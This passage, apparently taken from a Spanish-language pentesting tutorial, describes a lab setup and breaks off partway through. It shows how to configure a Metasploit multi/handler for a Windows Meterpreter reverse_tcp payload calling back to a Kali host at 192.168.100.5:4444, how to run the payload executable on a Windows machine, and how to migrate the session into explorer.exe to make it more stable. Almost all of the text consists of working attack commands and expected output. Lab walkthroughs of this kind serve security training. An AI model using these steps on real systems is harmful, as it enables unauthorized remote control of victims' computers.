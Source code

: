 
#### 3️⃣ En Kali: Configura el listener (Metasploit)

```bash
msfconsole
```

```ruby
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.100.5
set LPORT 4444
exploit
```

---

#### 4️⃣ En Windows: Ejecuta el payload

Ve a la carpeta donde copiaste `shell_win.exe` y haz doble clic.

🟢 En Kali verás que aparece una sesión activa:

```bash
meterpreter >
```

---

### 🔁 Migración de procesos en Meterpreter

#### Paso 1: Ver procesos activos

```bash
ps
```

Verás una lista como:

```
PID   Name             Arch  Session  User
1000  explorer.exe     x64   1        WIN10\User
1200  svchost.exe      x64   0        SYSTEM
1340  notepad.exe      x64   1        WIN10\User
```

#### Paso 2: Elegir un proceso estable

🧠 Recomiendo `explorer.exe` (está casi siempre activo y con permisos útiles).

Supón que el PID de `explorer.exe` es `1000`.

#### Paso 3: Migrar al nuevo proceso

```bash
migrate 1000
```

🎉 Si todo sale bien:
